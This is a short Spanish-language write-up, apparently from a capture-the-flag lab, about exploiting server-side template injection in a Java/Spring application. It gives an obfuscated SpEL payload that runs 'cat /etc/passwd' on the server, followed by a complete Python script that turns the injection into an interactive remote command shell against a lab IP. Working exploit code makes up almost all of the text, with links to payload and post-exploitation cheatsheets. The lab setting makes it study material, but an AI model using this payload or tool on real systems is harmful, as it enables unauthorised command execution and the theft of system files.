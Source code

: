 
Este es parte de las pruebas. 
{:.note}

***

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Este one-liner lo encuentras en la seccion de java retrieve /etc/passwd. 
{:.note}

***
### Pimera opccion.

```Python
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup
class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 